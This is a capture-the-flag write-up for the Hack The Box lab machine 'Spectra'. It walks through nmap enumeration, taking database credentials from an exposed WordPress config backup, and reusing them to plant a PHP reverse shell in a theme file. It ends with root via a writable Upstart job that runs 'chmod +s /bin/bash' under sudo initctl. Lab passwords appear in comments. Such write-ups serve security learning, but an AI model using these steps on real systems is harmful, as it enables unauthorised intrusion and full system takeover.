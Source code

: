 ![](spectra_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.229 spectra.htb

__nmap scan:__
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```

* webserver nginx 1.17.4 running 2 wordpress in diffrent directories on the same host.
```bash
http://spectra.htb/main/
http://spectra.htb/testing/
```

![](screenshots/web-page.png)

Running `wpscan` on `/main` wordpress found -
* WordPress version 5.4.2
* __User:__ administrator

`/testing/` wordpress gives "Error establishing a database connection" which preventing to run wpcan.

But it allows file indexing at `/testing` and from there found `wp-config.php`

![](screenshots/file-indexing.png)

Got __dbcreds:__ `devtest:devteam01` from `/wp-config.php.save`

Try connecting to mysql server return error.
```bash
❯ mysql -h 10.10.10.223 -u devteam -pdevteam01
ERROR 2002 (HY000): Can't connect to MySQL server on '10.10.10.223' (115)
```

but Password worked on `/main` wordpress login with username __`administrator`__.

# Foothold

## wpadmin reverse shell

Edit them and upload php reverse shell in the `404.php` file <!--administrator:devteam01-->

![](screenshots/upload-rev-shell.png)

and go to same theme `404.php` file to execute reverse shell
```bash
http://spectra.htb/main/wp-content/themes/twentytwenty/404.php
```

![](screenshots/web-shell.png)

# Privesc

found more dbcreds from `/main` wordpress config file
```bash
nginx@spectra /usr/local/share/nginx/html/main $ cat wp-config.php | grep -i 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
```

Found a conf file `autologin.conf.orig` in `/opt` directory which reads password from multiple folders. From `/etc/autologin` get new password which worked for user "katie" in ssh login.
<!--katie:SummerHereWeCome!!-->

![](screenshots/more-passwd.png)

User "katie" have sudo rights to run `/sbin/initctl` as any user on the box with NOPASSWD and SETENV enable.

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

## `initctl` with sudo

* __`initctl`__ [man page](https://linux.die.net/man/8/initctl), initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.
* __Upstart:__ software is an event-based replacement for the traditional init daemon—the method by which several Unix-like computer operating systems perform tasks when the computer is started.
  * [upstart doc](http://upstart.ubuntu.com/cookbook/)
* __upstart scripts:__ An Upstart script is a combination of states and events. Upstart scripts are located in `/etc/init/` directory with a `.conf` extension. The scripts are called "System Jobs" and run using sudo privileges. Just like system jobs we also have "User Jobs" that are located at `$HOME/.init/` directory. (Note: Only Ubuntu versions above 11.10 support user jobs). After internal upstart initialization, it emits an event called ‘startup’ which triggers rest of system and user jobs. 
  * writing upstart jobs [official doc](http://upstart.ubuntu.com/getting-started.html), [blog](https://blog.joshsoftware.com/2012/02/14/upstart-scripts-in-ubuntu/)


User katie is in "developers" group
```bash
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

and there are some job scripts in `/etc/init` folder which writable by "developers" group users.

![](screenshots/katie-dev-jobs.png)

__stop "test" job__
```bash
#to check if job is running
sudo -u root /sbin/initctl list

sudo -u root /sbin/initctl stop test
```

__Creating upstart job script__
```bash
cat > /etc/init/test.conf << EOF
description "initctl privesc"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script

post-stop script
    # clean up
    echo '' > /etc/init/test.conf
end script
EOF
```

__restart job__
```bash
sudo -u root /sbin/initctl start test
```

![](screenshots/spectra-rooted.png)

